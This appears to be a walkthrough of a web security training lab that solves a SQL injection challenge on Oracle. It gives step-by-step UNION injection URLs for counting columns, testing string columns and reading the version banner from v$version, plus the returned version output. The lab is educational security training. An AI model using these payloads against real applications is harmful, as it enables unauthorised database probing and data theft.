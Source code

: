 # Lab: SQL injection attack, querying the database type and version on Oracle
 This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

## Query the version of databases
| Database type    | Query                   |
| ---------------- | ----------------------- |
| Microsoft, MySQL | SELECT @@version        |
| Oracle           | SELECT * FROM v$version |
| PostgreSQL       | SELECT version()        |

## UNION attack with Oracle
Oracle is slightly different to other SQL implementations. Every `SELECT` statement must specify a table to select `FROM`. So to perform an UNION attack, we have to give another table.

There is a built-in table on Oracle called dual which you can use for this purpose. For example: `UNION SELECT 'abc' FROM dual`

## Solution
To determine the number of columns that is returned we use the following (enumerating the amount of `NULL`):
```
https://0a82003604225ada802adad0006d00d7.web-security-academy.net/filter?category=Gifts%27+union+select+null,null+from+dual+--+
```
Until we get no error anymore.

Next we must find a column with a string as datatype. Iterating through shows, that both columns contain text data:
```
https://0a82003604225ada802adad0006d00d7.web-security-academy.net/filter?category=Gifts%27+union+select+'ab','cd'+from+dual+--+
```

At last we use the following query to get the database version:
```
https://0a82003604225ada802adad0006d00d7.web-security-academy.net/filter?category=Gifts%27+union+select+null,banner+from+v$version+--+
```

This will create some kind of the following statement:
```sql
SELECT name, description FROM products WHERE category = 'Gifts' UNION SELECT NULL,banner FROM v$version -- 
```

As response we find the version of the Oracle database at the bottom of the content:
```
[...]

CORE 11.2.0.2.0 Production
NLSRTL Version 11.2.0.2.0 - Production
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
PL/SQL Release 11.2.0.2.0 - Production
TNS for Linux: Version 11.2.0.2.0 - Production
```

The challenge is solved.
